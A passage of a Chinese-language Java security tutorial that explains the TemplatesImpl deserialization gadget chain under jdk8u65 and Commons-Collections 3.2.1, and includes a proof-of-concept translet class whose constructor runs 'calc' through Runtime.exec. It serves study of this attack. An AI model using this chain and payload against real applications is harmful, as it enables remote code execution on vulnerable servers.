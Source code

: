 # 环境

- jdk8u65
- Commons-Collections 3.2.1

# TemplateImpl

在上一篇关于字节码的文章中简单过了一下TemplateImpl的利用链：https://itroyesivan.github.io/2023/12/03/javasec-ji-chu-07-zi-jie-ma

再看一下类加载的流程图：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206131222.png)

- loadClass()从已加载的类缓存、父加载器等位置寻找类，在前面没有找到的情况下，执行 findClass()。
- 根据名称或位置或URL加载 .class 字节码,然后使用 defineClass。
- defineClass 的作用是处理前面传入的字节码，将其处理成真正的Java类。但它只是加载类，并不执行类。若需要执行，则需要先进行 `newInstance()` 的实例化。

接下来看一下TemplateImpl的利用链：

```
TemplatesImpl#getOutputProperties()
  TemplatesImpl#newTransformer()
    TemplatesImpl#getTransletInstance()
      TemplatesImpl#defineTransletClasses()
        TransletClassLoader#defineClass()
      Class#newInstance()
```

getOutputProperties调用newTransformer

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206133015.png)

newTransformer调用getTransletInstance

![image-20231206135811681](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20231206135811681.png)

若`_name`不为null，`_class`为null，则getTransletInstance调用defineTransletClasses

![image-20231206135841481](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20231206135841481.png)

最后defineTransletClasses中调用defineClass

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206140015.png)

注意，下面会检查加载的类是不是AbstractTranslet的子类。这里必须要继承AbstractTranslet：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Calc extends AbstractTranslet {
    public Calc() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

```